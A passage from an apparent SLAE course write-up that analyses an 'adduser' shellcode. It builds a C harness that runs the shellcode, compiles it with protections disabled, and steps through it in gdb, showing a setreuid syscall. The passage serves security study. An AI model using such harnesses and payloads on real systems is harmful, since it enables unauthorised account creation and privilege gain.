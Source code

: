 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># cat &lt;&lt; EOF &gt; shellcode.c
&gt; #include &lt;stdio.h&gt;
&gt; #include &lt;string.h&gt;
&gt;
&gt; unsigned char shellcode[] = $(cat adduser.c | grep -v unsigned | sed 's/"//g;s/;//g;' | sed ':a;N;$!ba;s/\n//g;s/^/"/;s/$/"/' ) ;
&gt;
&gt; int main()
&gt; {
&gt; printf("Shellcode Length: %d\n", strlen(shellcode));
&gt; int (*ret)() = (int(*)()) shellcode;
&gt; ret();
&gt; }
&gt; EOF</pre>
<p style="text-align:justify;">Afterwards we will compile the C file above in order to create the executable.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># gcc -fno-stack-protector -g -z execstack -m32 -o shellcode shellcode.c</pre>
<p style="text-align:justify;">Now we are ready to run the above executable file with <strong>gdb.&nbsp;</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># gdb -q ./shellcode
Reading symbols from ./shellcode...
gdb-peda$ b *&amp;shellcode
Breakpoint 1 at 0x4040
gdb-peda$ r
Starting program: /root/Documents/SLAE/Assignment5/shellcode
Shellcode Length:  40
[----------------------------------registers-----------------------------------]
EAX: 0x404040 --&gt; 0xcb89c931
EBX: 0x404000 --&gt; 0x3efc
ECX: 0x7fffffea
EDX: 0xb7fb0010 --&gt; 0x0
ESI: 0xb7fae000 --&gt; 0x1d6d6c
EDI: 0xb7fae000 --&gt; 0x1d6d6c
EBP: 0xbffff508 --&gt; 0x0
ESP: 0xbffff4ec --&gt; 0x4011f9 (&lt;main+80&gt;:   mov    eax,0x0)
EIP: 0x404040 --&gt; 0xcb89c931
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40403a:    add    BYTE PTR [eax],al
   0x40403c:    add    BYTE PTR [eax],al
   0x40403e:    add    BYTE PTR [eax],al
=&gt; 0x404040 :    xor    ecx,ecx
   0x404042 &lt;shellcode+2&gt;:    mov    ebx,ecx
   0x404044 &lt;shellcode+4&gt;:    push   0x46
   0x404046 &lt;shellcode+6&gt;:    pop    eax
   0x404047 &lt;shellcode+7&gt;:    int    0x80
[------------------------------------stack-------------------------------------]
0000| 0xbffff4ec --&gt; 0x4011f9 (&lt;main+80&gt;:  mov    eax,0x0)
0004| 0xbffff4f0 --&gt; 0x1